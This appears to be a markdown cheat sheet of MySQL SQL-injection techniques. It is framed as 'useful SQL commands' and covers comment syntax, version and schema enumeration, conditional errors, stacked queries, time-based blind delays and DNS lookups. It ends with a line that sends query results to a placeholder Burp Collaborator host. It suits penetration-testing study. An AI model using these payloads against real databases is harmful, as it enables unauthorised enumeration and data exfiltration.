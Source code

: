 ## summary

Useful SQL commands for mysql dbms

## string concatenation
`'foo' 'bar'` **note:** there is space exist between quotes


## substring
`SUBSTRING('foobar', 4, 2)`

## comments
`-- comments` **note:** there is space exist after dashes

`/*comments*/`

`#comments`

## database version
`select @@version`

## database contents
`select * from information_schema.tables`

`select * from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

## conditional errors
`select if(YOUR-CONDITION-HERE,(select table_name from information_schema.tables),'a')`

## batched (or stacked) queries
`query-1-here; query-2-here`

## time delays
`select sleep(10)`

### samples

## conditional time delays
`select if(YOUR-CONDITION-HERE,sleep(10),'a')`

## dns lookup
The following techniques work on Windows only.

`load_file('\\\\YOUR-COLLABORATOR.burpcollaborator.net\\a') select ... into outfile '\\\\YOUR-COLLABORATOR.burpcollaborator.net\'`

## dns lookup with data exfiltration
The following technique works on Windows only. 

`select YOUR-QUERY-HERE into outfile '\\\\YOUR-COLLABORATOR.burpcollaborator.net\' 

